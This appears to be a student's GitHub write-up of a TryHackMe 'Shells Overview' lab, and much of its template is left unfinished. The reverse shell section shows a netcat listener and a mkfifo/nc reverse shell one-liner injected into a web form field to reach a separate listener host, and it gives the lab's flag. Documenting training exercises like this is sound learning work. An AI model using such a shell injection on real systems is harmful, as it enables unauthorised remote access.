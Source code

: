 # [Offensive Security Tooling]

**TryHackMe Path**: [Cyber Security 101]  
**Lab Topic**: [Shells Overview]  
**Date Completed**: [09//2025]

---

## 🧠 Summary

> In this lab, I learned about the importance of understanding

---

## 🎯 Objectives
- [ ] Learn about 
      
---

## 🧰 Tools Used
- THM Machine
- THM Gobuster

---

## 📊 Analysis & Screenshots

*** Practical Task (Reverse Shell) ***

> After launching the THM Machine, i read through all the Shell types, learned about them and was given a task at the end. The first one was to find a flag that was saved in the "/ directory" using a
reverse/bind shell. To do this i first had to navigate to the website "10.201.61.117.8080" within Mozilla FireFox and was prompted to the Reverse/Bind Shell task.
>
> <img width="951" height="532" alt="shell1" src="https://github.com/user-attachments/assets/963d9cea-11a9-4327-973c-38fbdd6aed95" />

> I then went ahead and opened up the Linux terminal and used Netcat to listen to a connection by inputting "nc -lvnp 4444," then "enter."
>
> <img width="475" height="160" alt="shell2" src="https://github.com/user-attachments/assets/c842ae6e-d306-43d6-93f9-f75728b75cc6" />

> Then selected "Reverse/Bind Shell task" and was prompted with an input field called "Hash The File" so i went ahead and inputted the command synthax
"rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.201.54.152 4444 >/tmp/f," and pressed submit button.
>
> <img width="987" height="457" alt="Screenshot 2025-09-24 at 2 01 46 PM" src="https://github.com/user-attachments/assets/9b3f4461-4b28-41a2-869d-9d11ca139b9a" />

> I then went back to my Netcat Listener and saw that the connection was received and i entered into the Reverse Shell.
>
> <img width="536" height="113" alt="shell3" src="https://github.com/user-attachments/assets/ddebedc8-35a0-4f0a-b07c-9db43b4f8b9b" />

> I then entered "cd /," then "enter" to get to the "/ directory," then "ls," then "enter" to list all the files within the "/ directory," and saw the file "flag.txt" within the directory.
>
> <img width="445" height="439" alt="shell4" src="https://github.com/user-attachments/assets/6724eb20-ee7b-4420-91dd-141e4988a084" />

> Finally i inputted "cat flag.txt," then "enter" to retrieve the flag and retrieved "THM{0f28b3e1b00becf15d01a1151baf10fd713bc625}."
>
> <img width="531" height="72" alt="shell5" src="https://github.com/user-attachments/assets/5c254fc7-32ca-4e85-b29e-c2199b23c943" />

*** Practical Task (Web Shell) ***

> 



---

## Reflection

> This lab provided me with knowledge about 
